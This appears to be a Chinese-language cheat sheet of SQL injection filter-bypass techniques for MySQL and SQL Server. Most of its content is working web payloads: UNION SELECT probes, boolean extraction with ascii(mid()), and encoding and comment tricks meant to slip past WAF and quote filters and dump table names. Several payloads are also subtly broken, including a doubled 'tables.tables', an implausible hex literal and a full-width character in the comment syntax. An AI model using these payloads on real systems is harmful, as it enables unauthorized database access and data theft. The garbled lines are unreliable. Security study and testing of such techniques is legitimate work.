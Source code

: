 # SQL注入绕过

## 空格过滤绕过
1. `/**/` 绕过
MySQL 数据库可以使用`/**/`(注释符)来代替空格
`?id=1/**/and/**/1=2/**/union/**/select/**/1,2,database()`

2. 制表符绕过
MySQL 数据库可以使用制表符来代替空格，在URL中传输需要编码，其编码为`%09`
`?id=1%09and%091=2%09union%09select%091,2,database()`

3. MySQL 数据库可以使用换行符来代替空格，在URL中传输需要编码，其编码为`%0a`
`?id=1%0aand%091=2%0aunion%0aselect%0a1,2,database()`

4. 括号绕过
MySQL数据库有个特性。在条件语句中，在 where id = 1 后面加 “=1”，成为where id=1=1 就是与原来结果一样；在后面加 “=0”，成为where id=1=0 就是与原来结果反选（取反）。
利用这个特性，构造括号绕过playload就可以进行 bool 注入
`id=1=(ascii(mid(database()from(1)for(1)))=99)`
`id=1=(ascii(mid(database()from(1)for(1)))=100)`

5. \`绕过
MySQL中的反引号 (\`) 是为了区分MySQL保留字与普通字符而引入的符号，反引号可以代替空格
`` select`username`from`user`where`username`='user1' ``

## 特殊字符过滤绕过
1. 内陆注释绕过
MySQL会执行放在/! ···/中的语句。/! 50010···/也可以执行位于其中的SQL语句，其中50010表示5.00.10，为MySQL版本号。当MySQL实际版本大于或等于注释中的版本号时，就会执行注释中的代码。可以利用这么特性逃过特殊字符过滤
`` /*！select*/ * /*!from*/ user``

2. 大小写绕过
`id=1 and 1=2 union seLeCt 1,2,database()`

3. 双写关键字绕过
`id=1 and 1=2 union seselectlect 1,2,database()`

4. 双重URL编码绕过
`id=1 and 1=2 union se%256cect 1,2,database()`

5. 十六进制编码绕过（参数过滤）
MySQL数据库可以识别十六进制，如果PHP开启了GPC，GPC会自动对单引号进行转义，这样注入无法正常使用。但是参数转换为十六进制就不需要单引号
`` id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables.tables where table_name=0x43853739947``

6. Unicode 编码绕过
IIS中间件可以识别Unicode字符，会自动转换
`` id=1 and 0 < (se%u006cect top 1 name from sec.db.sysobjects where xtype='U')``

7. ASCII编码绕过
SQL Server数据库的char函数可以将字符转换为ASCII码，这样也可以绕过单引号过滤
``?id=1 and 0 < (select top 1 name from sec.dbo.sysobjects where xtype = 'U' and name not in (CHAR(101)%2bCHAR(105)%2bCHAR(115)))``

## 等价函数字符替换绕过
1. 用 like 或 in 替换 =
`` php?id=1 and 1 like 1``

2. 逗号过滤
``select substr(database(),1,1);`` 
替换：
``select substr(database() from 1 for 1);``
3. 等价函数
sleep函数可以使用benchmark替换；
ascii函数可以使用hex、bin、ord函数替换；
group_concat函数可以用concat_ws函数替换；
updatexml可以使用extractvalue函数替换。




